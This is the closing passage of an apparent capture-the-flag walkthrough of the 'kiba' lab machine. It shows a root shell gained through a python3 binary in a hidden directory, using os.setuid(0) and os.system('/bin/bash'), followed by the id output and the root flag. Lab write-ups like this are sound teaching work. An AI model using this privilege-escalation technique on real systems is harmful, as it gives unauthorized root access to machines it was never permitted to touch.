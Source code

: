 This should be really easy for us to exploit:

```text
kiba@ubuntu:/tmp$ /home/kiba/.hackmeplease/python3
Python 3.5.2 (default, Oct  8 2019, 13:06:37) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.getuid()
1000
>>> os.setuid(0)
>>> os.getuid()
0
>>> os.system("/bin/bash")
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Lets grab that root.txt flag now:

![root_flag.png](../assets/kiba_assets/root_flag.png)

And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------

